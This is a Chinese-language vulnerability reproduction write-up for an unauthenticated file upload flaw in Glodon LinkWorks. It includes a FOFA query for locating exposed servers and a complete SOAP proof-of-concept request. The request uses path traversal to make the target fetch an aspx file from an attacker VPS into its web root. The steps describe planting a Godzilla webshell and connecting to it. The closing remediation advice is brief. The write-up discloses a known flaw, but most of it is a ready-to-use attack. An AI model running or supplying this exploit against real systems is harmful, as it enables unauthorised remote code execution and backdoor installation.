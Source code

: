 
# 广联达 linkworks 文件上传漏洞复现

### 0x01 产品简介

 [广联达](https://so.csdn.net/so/search?q=%E5%B9%BF%E8%81%94%E8%BE%BE&spm=1001.2101.3001.7020) LinkWorks（也称为 GlinkLink 或 GTP-LinkWorks）是广联达公司（Glodon）开发的一种 BIM（建筑信息模型）协同平台。广联达是中国领先的数字建造技术提供商之一，专注于为建筑、工程和建筑设计行业提供数字化解决方案。

### 0x02 漏洞概述

  由于广联达 LinkWorks /GB/LK/ArchiveManagement/Js/GWGDWebService.asmx接口处设置不当，未经身份认证的攻击者通过该漏洞上传恶意文件，可能导致恶意代码执行、身份伪造、后门植入、敏感数据泄露等问题。

### 0x03 复现环境

FOFA：

```cobol
body="Services/Identification/login.ashx" || header="Services/Identification/login.ashx" || banner="Services/Identification/login.ashx"
```

![](assets/1701134743-c03f5171a202aa03a165f48ca0023a20.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /GB/LK/ArchiveManagement/Js/GWGDWebService.asmx HTTP/1.1
Host: {{Hostname}}
Content-Type: text/xml; charset=utf-8
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetGWGDData>
         <!--Optional:-->
         <tem:data>
            <root>
               <GWINFO>
                  <公文标题>1</公文标题>
                  <拟稿人>拟稿人</拟稿人>
                  <主送单位>主送单位</主送单位>
                  <主题词>主题词</主题词>
                  <印发份数>1</印发份数>
                  <签发日期>2022-12-07</签发日期>
               </GWINFO>
               <aa>
                  <FileName>./../../../../../../../applications/gtp-default/Web/Common/1.aspx</FileName>
                  <DownLoadURL>http://vpsIP/1.aspx</DownLoadURL>
               </aa>
            </root>
         </tem:data>
      </tem:GetGWGDData>
   </soapenv:Body>
</soapenv:Envelope>
```

生成哥斯拉 aspx 马，上传至 vps

python 开启 http 服务器，发送请求

![](assets/1701134743-1cb7b907ba88baa04da11db420d8bb4e.png)

![](assets/1701134743-336ac0087d366ac7b59e565fe707b48b.png) 验证

![](assets/1701134743-e2264bb59fd98eafa69314bb5b4c0262.png)

尝试连接

### ![](assets/1701134743-14e406920b10d9bc9e5d3c301ca44af5.png) ![](assets/1701134743-bced54610c705e53c9720c7567d72511.png)0x05 修复建议 

官方暂已修复该漏洞，请用户联系厂商修复漏洞：http://www.glinkworks.com/office.html

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
